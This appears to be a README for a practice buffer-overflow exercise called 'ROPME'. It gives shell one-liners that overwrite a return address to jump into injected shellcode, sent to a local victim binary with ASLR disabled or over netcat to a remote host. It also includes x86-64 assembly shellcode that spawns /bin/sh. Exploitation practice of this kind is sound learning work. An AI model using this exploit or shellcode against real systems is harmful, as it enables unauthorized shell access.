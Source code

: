 ROPME
=====

Practice for making rop host

Solution
========

	$ a=`printf %016x 0x7fffffffe090 | tac -rs..`
	$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; 	cat ) | setarch `arch` -R ./victim

or

	$ a=`printf %016x 0x7fffffffe090 | tac -rs..`
	$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ;  cat ) | nc HOST PORT

Shellcode
=========

Sample shellcode for spawn /bin/sh shell

	int main() {
		asm("\
			needle0: jmp there\n\
			here:    pop %rdi\n\
			xor %rax, %rax\n\
			movb $0x3b, %al\n\
			xor %rsi, %rsi\n\
			xor %rdx, %rdx\n\
			syscall\n\
			there:   call here\n\
			.string \"/bin/sh\"\n\
			needle1: .octa 0xdeadbeef\n\
		");
	}
